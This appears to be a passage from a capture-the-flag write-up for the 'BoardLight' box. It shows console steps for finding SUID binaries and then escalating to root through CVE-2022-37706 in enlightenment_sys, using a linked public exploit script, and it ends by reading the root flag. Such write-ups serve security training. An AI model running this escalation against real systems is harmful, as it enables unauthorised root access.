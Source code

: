 ```console
larissa@boardlight:/home$ find / -perm -4000 2>/dev/null
/usr/lib/eject/dmcrypt-get-device
/usr/lib/xorg/Xorg.wrap
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight
...
```

The `enlightenment_sys` binary has a PE bug: <https://www.exploit-db.com/exploits/51180>

Using [this exploit](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit/tree/main) works as is:

```console
larissa@boardlight:/dev/shm$ bash ./x.sh
CVE-2022-37706
[*] Trying to find the vulnerable SUID file...
[*] This may take few seconds...
[+] Vulnerable SUID binary found!
[+] Trying to pop a root shell!
[+] Enjoy the root shell :)
mount: /dev/../tmp/: can't find in /etc/fstab.
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),1000(larissa)
# cat /root/root.txt
9b2afb...
```
